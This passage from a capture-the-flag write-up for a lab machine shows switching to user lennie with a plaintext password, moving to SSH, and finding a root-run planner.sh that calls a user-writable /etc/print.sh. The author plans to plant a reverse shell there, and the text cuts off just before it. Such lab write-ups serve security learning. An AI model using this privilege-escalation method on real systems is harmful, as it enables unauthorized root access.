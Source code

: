 ```
www-data@startup:/$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/$ 
```
```
lennie@startup:~$ ls ~
ls ~
Documents  scripts  user.txt
lennie@startup:~$ cat ~/user.txt
cat ~/user.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
lennie@startup:~$ 
```

### Third flag (root-flag)
Before going for the root-flag, we can transfer from our reverse-shell (tty) to an SSH connection. We know what lennie's credentials are and SSH is generally more stable.
```
user@parrot ~ $ ssh lennie@10.10.62.240
lennie@10.10.62.240's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.


Last login: Wed Apr 24 13:14:31 2024 from 10.9.251.98
$ 
```

Next up I tried `sudo -l`, but unfortunately, lennie is not allowed to use `sudo`, so there has to be something else.
We have not inspected the other files in lennie's directory yet.
The Documents directory does not contain anything useful, the scripts one looks promising. It contains the file "planner.sh".
```
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
$ 
```
Sadly we cannot modify its content, because the file belongs to root and lennie has not enough permissions to write to it. It does execute another script thought.
```
$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
$ 
```
```
$ ls -lisa /etc | grep "print.sh"
 57937  4 -rwx------  1 lennie lennie    25 Nov 12  2020 print.sh
$ 
```
The */etc/print.sh* script belongs to lennie, so we can freely modify its content. Time to create another reverse-shell.
```
$ cat /etc/print.sh
```